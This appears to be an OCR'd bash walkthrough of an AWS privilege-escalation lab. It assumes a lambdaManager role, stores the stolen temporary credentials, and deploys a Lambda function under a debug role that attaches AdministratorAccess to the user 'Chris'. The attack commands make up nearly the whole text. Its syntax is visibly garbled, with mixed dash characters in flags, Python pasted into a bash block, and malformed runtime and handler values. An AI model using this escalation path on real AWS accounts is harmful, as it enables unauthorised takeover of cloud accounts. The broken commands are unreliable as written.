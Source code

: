 ```bash
LambdaRolePolicy='aws iam get-policy-version \
                    -–policy-arn $LambdaRolePolicyArn \
                    -–version-id $LambdaRolePolicyVer \
                    -–profile $SRC_PROFILE '
echo "$LambdaRolePolicy"
# this policy has iam:PassRole, lambda:CreateFunction and lambda:InvokeFunction permissions
# can escalate privileges by passing an existing IAM role to new Lambda function that includes code
# - to import the relevant AWS library to their programming language of choice,
# - then using it perform actions of their choice.
# The code could then be run by invoking the function through the AWS API.
# This would give a user access to the privileges associated with any Lambda service role that exists in the account, from no privilege escalation to full administrator access to the account.


LambdaRoleSession='aws sts assume role \
                    -–role-arn $LambdaRole
                    –-role-session-name lambdaManager_role_session
                    -–profile $SRC_PROFILE'
# assume the lambdaManager role
# action was successful because Chris is authorized to assume the role.
# granted the temporary credential of the role (i.e., access key ID, secret access key and session token).





# ------------- 6. Configure the IAM credential on AWS CLI:
# aws configure -–profile lambdaManager
LambdaROFILE='lambdaManager'
LambdaRole_AWS_ACCESS_KEY_ID=`echo $LambdaRoleSession | jq -r .Credentials.AccessKeyId`
LambdaRole_AWS_AWS_SECRET_ACCESS_KEY=`echo $LambdaRoleSession | jq -r .Credentials.SecretAccessKey`
LambdaRole_AWS_SESSION_TOKEN=`echo $LambdaRoleSession | jq -r .Credentials.SessionToken`

echo "[$LambdaROFILE]
REGION = $AWS_REGION
AWS_ACCESS_KEY_ID = $LambdaRole_AWS_ACCESS_KEY_ID
AWS_SECRET_ACCESS_KEY = $LambdaRole_AWS_AWS_SECRET_ACCESS_KEY
AWS_SESSION_TOKEN = $LambdaRole_AWS_SESSION_TOKEN
" | crudini --merge $INFILE
echo "Set creds for profile $PROFILE in $INFILE"


# ------------- 7. Create a Lambda function
# Lambda: attach the administrator policy to the IAM user – Chris:
import boto3
def lambda_handler(event, context):
    client = boto3.client('iam')
    response = client.attach_user_policy(UserName ='$USERNAME', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
    return response
# Save the file as lamba_function.py and zip it.


# Run this command:
# using the lambdaManager role to create a Lambda function, and set the lambda execution role to the debug role.
aws lambda create-function \
    -–function-name admin_function \
    -–runtime python 3.6 \
    -–role $DebugRolePolicyArn \
    -–handler lambda_function.lambda.handler –zip-file fileb://lamba_function.zip \
    -–profile $LambdaROFILE \
```
